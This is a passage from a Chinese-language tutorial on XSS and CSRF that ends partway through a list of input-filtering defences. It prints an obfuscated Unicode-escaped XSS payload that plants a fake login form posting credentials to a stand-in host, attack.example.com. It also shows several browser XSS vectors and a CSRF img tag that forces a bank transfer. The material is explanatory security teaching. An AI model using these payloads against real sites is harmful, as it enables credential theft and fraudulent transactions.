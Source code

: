<p>注入的代码还有可能变种为如下这种更为隐蔽的方式(unicode码)：</p>
<div style="color:#1b00aa;background-color:#efefef;border:1px solid #dde2f5;font-size:90%;padding:10px">
<div>trustedSite.example.com/welcome.php?username=&lt;script+type=”text/javascript”&gt;</div>
<div>document.write(‘\u003C\u0064\u0069\u0076\u0020\u0069\u0064\u003D\u0022\u0073</div>
<div>\u0074\u0065\u0061\u006C\u0050\u0061\u0073\u0073\u0077\u006F\u0072\u0064</div>
<div>\u0022\u003E\u0050\u006C\u0065\u0061\u0073\u0065\u0020\u004C\u006F\u0067</div>
<div>\u0069\u006E\u003A\u003C\u0066\u006F\u0072\u006D\u0020\u006E\u0061\u006D</div>
<div>\u0065\u003D\u0022\u0069\u006E\u0070\u0075\u0074\u0022\u0020\u0061\u0063</div>
<div>\u0074\u0069\u006F\u006E\u003D\u0022\u0068\u0074\u0074\u0070\u003A\u002F</div>
<div>\u002F\u0061\u0074\u0074\u0061\u0063\u006B\u002E\u0065\u0078\u0061\u006D</div>
<div>\u0070\u006C\u0065\u002E\u0063\u006F\u006D\u002F\u0073\u0074\u0065\u0061</div>
<div>\u006C\u0050\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u002E\u0070\u0068</div>
<div>\u0070\u0022\u0020\u006D\u0065\u0074\u0068\u006F\u0064\u003D\u0022\u0070</div>
<div>\u006F\u0073\u0074\u0022\u003E\u0055\u0073\u0065\u0072\u006E\u0061\u006D</div>
<div>\u0065\u003A\u0020\u003C\u0069\u006E\u0070\u0075\u0074\u0020\u0074\u0079</div>
<div>\u0070\u0065\u003D\u0022\u0074\u0065\u0078\u0074\u0022\u0020\u006E\u0061</div>
<div>\u006D\u0065\u003D\u0022\u0075\u0073\u0065\u0072\u006E\u0061\u006D\u0065</div>
<div>\u0022\u0020\u002F\u003E\u003C\u0062\u0072\u002F\u003E\u0050\u0061\u0073</div>
<div>\u0073\u0077\u006F\u0072\u0064\u003A\u0020\u003C\u0069\u006E\u0070\u0075</div>
<div>\u0074\u0020\u0074\u0079\u0070\u0065\u003D\u0022\u0070\u0061\u0073\u0073</div>
<div>\u0077\u006F\u0072\u0064\u0022\u0020\u006E\u0061\u006D\u0065\u003D\u0022</div>
<div>\u0070\u0061\u0073\u0073\u0077\u006F\u0072\u0064\u0022\u0020\u002F\u003E</div>
<div>\u003C\u0069\u006E\u0070\u0075\u0074\u0020\u0074\u0079\u0070\u0065\u003D</div>
<div>\u0022\u0073\u0075\u0062\u006D\u0069\u0074\u0022\u0020\u0076\u0061\u006C</div>
<div>\u0075\u0065\u003D\u0022\u004C\u006F\u0067\u0069\u006E\u0022\u0020\u002F</div>
<div>\u003E\u003C\u002F\u0066\u006F\u0072\u006D\u003E\u003C\u002F\u0064\u0069\u0076\u003E\u000D’);&lt;/script&gt;</div>
</div>
<p><strong>XSS的攻击主要是通过一段JS程序得用用户已登录的cookie去模拟用户的操作（甚至偷用户的cookie）</strong>。这个方式可以让用户在自己不知情的情况下操作了自己不期望的操作。如果是网站的管理员中招，还有可能导致后台管理权限被盗。关于其中的一些细节可以参看《<a title="新浪微博的XSS攻击" href="http://coolshell.cn/articles/4914.html">新浪微博的XSS攻击</a>》一文。XSS攻击是程序员有一糊涂就很容易犯的错误，你还可以看看网上的《<a href="http://www.cnblogs.com/kingthy/archive/2011/08/20/2147355.html">腾讯微博的XSS攻击</a>》。</p>
<p>XSS攻击在论坛的用户签档里面（使用img标签）也发生过很多次，包括像一些使用bcode的网站，很有可能会被注入一些可以被浏览器用来执行的代码。包括CSS都有可能被注入javascript代码。</p>
<p>不要以为XSS攻击是我们的程序没有写好，有时候，我们会引用别人站点上的js文件，比如：放一个天气预报的小Widget的js，或是一个流量监控，或是一段广告的js文件。你不知道这些东西是不是有问题，如果有恶意的话，这就是你自己主动注入攻击代码了。</p>
<p><strong>另外，XSS攻击有一部分是和浏览器有关的。</strong>比如，如下的一些例子，你可能从来都没有想过吧？（<strong>更多的例子可以参看酷壳很早以前的这篇文章《<a href="http://coolshell.cn/articles/2416.html">浏览器HTML安全列表</a>》</strong>）</p>
<pre>&lt;table background=”javascript:alert(1)”&gt;

&lt;meta charset=”mac-farsi”&gt;¼script¾alert(1)¼/script¾

&lt;img src=”javascript:alert(1)”&gt;</pre>
<p>XSS攻击通常会引发CSRF攻击。CSRF攻击主要是通过在A站上设置B站点上的链接，通过使用用户在B站点上的登录且还没有过期的cookie，从而使得用户的B站点被攻击。（这得益于现在的多Tab页的浏览器，大家都会同时打开并登录很多的网站，而这些不同网站的页面间的cookie又是共享的）</p>
<p>于是，如果我在A站点内的某个贴子内注入这么一段代码：</p>
<pre>&lt;img src=&quot;http://bank.example.com/transfer?account=XXX&amp;amount=1000000&amp;for=haoel&quot;&gt;</pre>
<p>很有可能你就在访问A站的这个贴子时，你的网银可能向我转了一些钱。</p>
<p><strong>如何避免</strong></p>
<p>要防止XSS攻击，一般来说有下面几种手段：</p>
<ul>
<li>严格限制用户的输入。最好不要让用户输入带标签的内容。最好不要让用户使用一些所见即所得的HTML编辑器。</li>
</ul>
<ul>
<li>严格过滤用户的输入。如：
<ul>
<li>PHP的<code>htmlentities()或是htmlspecialchars()或是strip_tags()</code>。</li>
<li>Python的<code>cgi.escape()</code></li>
<li>ASP的<code>Server.HTMLEncode()</code>。</li>
<li>Node.js的node-validator。</li>
<li>Java的<a href="http://code.google.com/p/xssprotect/" rel="nofollow">xssprotect</a>。</li>
</ul>